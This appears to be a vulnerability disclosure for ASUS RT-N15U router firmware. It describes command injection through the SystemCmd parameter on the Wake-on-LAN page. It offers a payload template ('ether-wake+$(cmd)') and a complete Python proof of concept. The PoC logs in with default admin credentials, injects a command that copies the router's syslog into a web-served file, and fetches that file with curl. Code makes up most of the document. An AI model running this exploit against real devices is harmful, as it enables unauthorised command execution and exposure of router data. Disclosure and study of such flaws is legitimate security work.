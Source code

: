 Router model: FW_RT_N15U

Firmware version: 3.0.0.4.376_3754

# Vulnerability introduction

The sub_41F360t function is not strictly filtered, allowing users to construct malicious code under the sys_scrip function, execute the malicious code by accessing the Main_WOL_Content.asp web page, and execute commands remotely.

# Vulnerability analysis

The vulnerability lies in the Main_WOL_Content.asp function page of the sub_41F360 function.

![image](https://github.com/user-attachments/assets/084303d0-5735-4e6c-91f5-4ccb9c7fa1a9)

![image](https://github.com/user-attachments/assets/a38029a8-8569-4bc0-8239-c6d2e630792f)

Finally, execute the sys_script function, where SystemCmd is directly spliced ​​into the string.

![image](https://github.com/user-attachments/assets/d9d4673c-e930-40ba-8ab0-f517745edfb4)

You can construct payload = SystemCmd=ether-wake+$(cmd) # for exploitation

# POC

![image](https://github.com/user-attachments/assets/d64e5414-8254-45b0-99cd-9d5b60081f62)



```python
import requests
import subprocess
burp0_url = "http://192.168.1.1:80/apply.cgi?current_page=Main_WOL_Content.asp&next_page=Main_WOL_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=CN&SystemCmd=ether%2dwake+%24%28cat+%2Ftmp%2Fsyslog.log%3E+tweety.asp+%29%23&firmver=3.0.0.4&destIP=%24%28cat+%2Ftmp%2Fsyslog.log%3E+tweety.asp+%29%23&wollist_deviceName=%24%28cat+%2Ftmp%2Fsyslog.log%3E+tweety.asp+%29%23&wollist_macAddr=%24%28cat+%2Ftmp%2Fsyslog.log%3E+tweety.asp+%29%23"


burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36", 
                 "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", 
                 "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7", "Accept-Encoding": "gzip, deflate, br", 
                 "Authorization": "Basic YWRtaW46YWRtaW4=", 
                 "Connection": "close", 
                 "Referer":"http://192.168.1.1/Main_WOL_Content.asp", 
                 "Upgrade-Insecure-Requests": "1"}

session = requests.Session()

session.get(burp0_url, headers=burp0_headers)
burp1_url = "http://192.168.1.1:80/Main_WOL_Content.asp"
burp1_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36", 
                 "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", 
                 "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7", "Accept-Encoding": "gzip, deflate, br", 
                 "Authorization": "Basic YWRtaW46YWRtaW4=", 
                 "Connection": "close",  
                 "Referer": "http://192.168.1.1:80/apply.cgi?current_page=Main_WOL_Content.asp&next_page=Main_WOL_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=CN&SystemCmd=ether%2dwake+%24%28cat+%2Ftmp%2Fsyslog.log%3E+tweety.asp+%29%23&firmver=3.0.0.4&destIP=%24%28cat+%2Ftmp%2Fsyslog.log%3E+tweety.asp+%29%23&wollist_deviceName=%24%28cat+%2Ftmp%2Fsyslog.log%3E+tweety.asp+%29%23&wollist_macAddr=%24%28cat+%2Ftmp%2Fsyslog.log%3E+tweety.asp+%29%23"
, 
    "Upgrade-Insecure-Requests": "1"}
session.get(burp1_url, headers=burp1_headers)

def execute_shell_command(command):
    try:
        result = subprocess.run(command, shell=True, check=True,
        stdout=subprocess.PIPE, stderr=subprocess.PIPE, universal_newlines=True)
        return result.stdout.strip()
    except subprocess.CalledProcessError as e:
        return f"Error executing command: {e}"
    except Exception as e:
        return f"Error: {e}"

command = "curl http://192.168.1.1/tweety.asp -H 'Authorization: Basic YWRtaW46YWRtaW4='"
output = execute_shell_command(command)
print("Command output:")
print(output)
```
